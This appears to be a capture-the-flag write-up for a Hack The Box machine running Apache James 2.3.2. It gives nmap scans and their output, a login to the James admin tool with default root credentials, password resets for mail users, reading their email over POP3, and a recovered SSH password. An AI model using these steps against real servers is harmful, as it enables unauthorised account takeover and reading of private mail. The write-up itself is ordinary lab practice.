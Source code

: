 ##### nmap

All port scan
```bash
sudo nmap -sV -p- -v 10.10.10.75 -oA nmap2
```
```
PORT      STATE    SERVICE
22/tcp    open     ssh
25/tcp    open     smtp
80/tcp    open     http
110/tcp   open     pop3
119/tcp   open     nntp
1419/tcp  filtered timbuktu-srv3
4555/tcp  open     rsip
38682/tcp filtered unknown
```

Service scan
```bash
sudo nmap -sC -sV 10.10.10.51 -p 22,25,80,110,119,1419,4555,38682 -v -oA nmap
```
```
PORT      STATE  SERVICE       VERSION
22/tcp    open   ssh           OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp    open   smtp          JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.7 [10.10.14.7])
80/tcp    open   http          Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp   open   pop3          JAMES pop3d 2.3.2
119/tcp   open   nntp          JAMES nntpd (posting ok)
1419/tcp  closed timbuktu-srv3
4555/tcp  open   rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
38682/tcp closed unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.94SVN%I=7%D=8/31%Time=66D34F04%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\
SF:nPlease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPas
SF:sword:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Found an exploit that adds a user and allows RCE when someone logs in via SSH. But that did not work as there is nobody SSHing into the system. 
- Connecting to Apache James Admin Tool v2.3.2
```bash
telnet 10.10.10.51 4555
Login id: root
password: root
```
Apache James HELP
![[Pasted image 20240901115607.png]]

- listusers
![[Pasted image 20240901115724.png]]
- setpassword \[username] \[password]
![[Pasted image 20240901115859.png]]

We know that pop3 server is up and running which can be used to communicate with mail server, log in as a particular user and retrieve their emails
https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop

- Using the commands, logged in as user john
```bash
telnet 10.10.10.51 110
USER john
PASS john
LIST 
RETR 1
```
![[Pasted image 20240901120238.png]]

- user `mindy`. Mindy has 2 emails
- ![[Pasted image 20240901120355.png]]
- ![[Pasted image 20240901120407.png]]

We have mindy's SSH credentials
`mindy:P@55W0rd1!2@`